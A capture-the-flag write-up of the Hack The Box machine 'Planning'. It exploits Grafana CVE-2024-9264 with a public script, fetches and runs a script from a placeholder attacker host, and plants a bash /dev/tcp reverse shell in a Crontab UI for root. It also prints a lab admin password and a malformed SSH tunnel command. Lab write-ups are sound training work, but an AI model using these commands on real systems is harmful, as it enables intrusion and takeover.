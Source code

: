 # 🗂️Planning

## 🧠Summary
  > The target machine "Planning" exposes a misconfigured Grafana 11 instance on a subdomain, grafana.planning.htb, which is vulnerable to Remote Code Execution (RCE) via the SQL Expressions feature. This vulnerability, tracked as CVE-2024-9264, allows post-processing of query data using DuckDB, which fails to sanitize user-supplied SQL properly. By exploiting this flaw, we were able to gain remote command execution inside a Docker container. Further enumeration led to credential discovery and access to a Crontab UI interface hosted on port 8000. By injecting a reverse shell payload through the scheduler interface, we achieved privilege escalation and accessed the root flag.

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v planning.htb
  ```
- The result of the nmap scan is ![](./screenshots/nmap_scan.png)
- The ssh and http ports are open

## 🌐Step 2 (Web enumeration)
- Did web enumeration manual and used dirsearch but found nothing useful
  ![](./screenshots/dirsearch.png)
- As a result decided to find if any subdomain exist, used gobuster and a custom generated wordlist from chatgpt
  ```bash
  gobuster dns -d planning.htb -w /home/raihan/Documents/m_planning/wordlist.txt --no-error
  ```
  ![](./screenshots/gobuster.png)
- Here found that a subdomain grafana exist
- Entered the webpage grafana.planning.htb and found a login page and logged in using the given creds

## 📌Step 3 (Loop hole)
- Searched in web about grafana and found two important links leading to the successful pawning of this machine
- Link 1 (write up about grafana's vulnerablity) 👉 [https://grafana.com/blog/security_vulnerabity](https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/)
- Link 2 (Exploit found for the CVE-2024-9264) 👉 [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)
- Downloaded the exploit code using git clone
  ```bash
  git clone https://github.com/nollium/CVE-2024-9264
  ```
- Executed the downloaded exploit and tryed to dump the /etc/passwd file and found out that the output shows that it is the root of docker
- So used LinEnum.sh to escape from the docker
- After hosting LinEnum in my machine used the command
  ```bash
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://<your-ip>:<port>/LinEnum.sh" http://grafana.planning.htb
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "chmod +x LinEnum.sh" http://grafana.planning.htb
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "./LinEnum.sh" http://grafana.planning.htb
  ```
- After execution got the creds username and password
  ![](./screenshots/creds.png)

## ⚓Step 4(Foothold)
- SSH into the machine using the obtained creds
  ```bash
  ssh enzo@planning.htb
  ```
- Gained the shell and obtained the user flag
- Checked if any binary misconfig or any non password executable binary exist but non
- Proceeded on checking each directory and found a crontab.db
- Cat the file and found a password
- Further checked if any additional proccess is happening using
  ```bash
  netstat -tulpn
  ```
- Found it is hosting a webpage in port 8000
  ```bash
  ssh 8000:localhosts:8000 enzo@planning.htb
  ```
- Found a webpage that hosts crontab
  ![](./screenshots/crontab_web.png)
- Inserted a malicious code that connects to my machine using netcat to gain root shell
  ```bash
  /bin/bash -i >& /dev/tcp/<your ip>/<your port> 0>&1
  ```
- Gained the root shell and got the root flag 🚩
